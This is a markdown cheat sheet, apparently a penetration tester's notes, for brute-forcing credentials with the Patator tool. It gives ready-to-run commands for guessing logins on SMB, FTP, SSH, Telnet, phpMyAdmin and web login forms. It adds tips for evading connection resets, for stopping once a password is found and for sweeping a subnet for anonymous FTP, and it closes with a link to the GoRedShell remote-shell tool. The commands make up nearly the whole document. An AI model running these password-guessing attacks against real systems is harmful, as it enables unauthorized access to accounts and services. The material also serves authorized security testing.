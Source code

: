 # Brute-forcing
If we gain creds from one machine, we will try it on other machines.

## Using Patator (Python)
```
https://github.com/lanjelot/patator
```

To get example commands:
```
/patator.py <module> -h
```

You can do *host=FILE0* and give the host file names using *0=hosts.txt*

## SMB
```
smb_login host=10.0.0.1 user=FILE0 password=FILE1 0=logins.txt 1=passwords.txt -x ignore:fgrep=STATUS_LOGON_FAILURE
```

## FTP -  Brute-force authentication. Do not report wrong passwords. 
```
ftp_login host=10.0.0.1 user=FILE0 password=FILE1 0=logins.txt 1=passwords.txt -x ignore:mesg='Login incorrect.'
```

*If you get errors like "500 OOPS: priv_sock_get_cmd", use -x ignore,reset,retry:code=500 in order to retry the last login/password using a new TCP connection. Odd servers like vsftpd return this when they shut down the TCP connection (ie. max login attempts reached).*

If you want to stop testing when password is found:
```
ftp_login ... -x free=user:code=0
```

### Find anonymous ftp enabled machines
```
ftp_login host=NET0 user=anonymous password=test@example.com 0=10.0.0.0/24
```

## SSH  Brute-force several hosts and stop testing a host after a valid password is found. 
```
ssh_login host=FILE0 user=FILE1 password=FILE2 0=hosts.txt 1=logins.txt 2=passwords.txt -x free=host:code=0
```

## Telnet
```
telnet_login host=10.0.0.1 inputs='FILE0\nFILE1' 0=logins.txt 1=passwords.txt prompt_re='tux login:|Password:' -x reset:egrep!='Login incorrect.+tux login:'
```

## PHPMyAdmin
```
http_fuzz url=http://10.0.0.1/phpmyadmin/index.php method=POST follow=1 accept_cookie=1 body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt -x ignore:fgrep='Cannot log in to the MySQL server'
```

##  Brute-force website logon using GET requests
```
http_fuzz url='http://10.0.0.1/login?username=admin&password=_@@_FILE0_@@_' -e _@@_:hex 0=words.txt -x ignore:'code=200|size=1500-|fgrep=Welcome, unauthenticated user' -X '|'
```

# GoRedShell
```
https://github.com/ahhh/GoRedShell/releases
```

